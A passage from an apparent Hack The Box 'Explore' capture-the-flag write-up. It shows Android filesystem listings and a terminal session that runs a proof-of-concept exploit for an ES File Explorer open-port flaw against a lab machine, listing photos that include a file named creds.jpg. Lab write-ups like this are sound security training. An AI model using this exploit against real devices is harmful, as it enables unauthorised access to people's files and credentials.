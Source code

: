 ```bash
{"name":"oem", "time":"6/26/21 11:54:12 PM", "type":"folder", "size":"40.00 Bytes (40 Bytes)", },
{"name":"odm", "time":"6/26/21 11:54:12 PM", "type":"folder", "size":"220.00 Bytes (220 Bytes)", },
{"name":"mnt", "time":"6/26/21 11:54:13 PM", "type":"folder", "size":"240.00 Bytes (240 Bytes)", },
{"name":"init.zygote64_32.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"875.00 Bytes (875 Bytes)", },
{"name":"init.zygote32.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"511.00 Bytes (511 Bytes)", },
{"name":"init.usb.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"5.51 KB (5,646 Bytes)", },
{"name":"init.usb.configfs.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"7.51 KB (7,690 Bytes)", },
{"name":"init.superuser.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"582.00 Bytes (582 Bytes)", },
{"name":"init.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"29.00 KB (29,697 Bytes)", },
{"name":"init.environ.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"1.04 KB (1,064 Bytes)", },
{"name":"init.android_x86_64.rc", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"3.36 KB (3,439 Bytes)", },
{"name":"init", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"2.29 MB (2,401,264 Bytes)", },
{"name":"fstab.android_x86_64", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"753.00 Bytes (753 Bytes)", },
{"name":"etc", "time":"3/25/20 03:41:52 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"dev", "time":"6/26/21 11:54:14 PM", "type":"folder", "size":"2.64 KB (2,700 Bytes)", },
{"name":"default.prop", "time":"6/26/21 11:54:12 PM", "type":"file", "size":"1.09 KB (1,118 Bytes)", },
{"name":"data", "time":"3/15/21 04:49:09 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", },
{"name":"d", "time":"6/26/21 11:54:11 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"config", "time":"6/26/21 11:54:13 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
{"name":"charger", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"cache", "time":"6/26/21 11:54:13 PM", "type":"folder", "size":"120.00 Bytes (120 Bytes)", },
{"name":"bugreports", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"bin", "time":"3/25/20 12:26:22 AM", "type":"folder", "size":"8.00 KB (8,192 Bytes)", },
{"name":"acct", "time":"6/26/21 11:54:12 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }
]
```

### Dumping listing all files from 
- it's showing the path also 
- it is showing a creds.jpg file
- so we can downlod this files  


```bash
╭─root@kali ~/Desktop/htb/Explore/ESFileExplorerOpenPortVuln ‹master*› 
╰─# python poc.py --cmd listPics sdcard --ip $IP 
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```
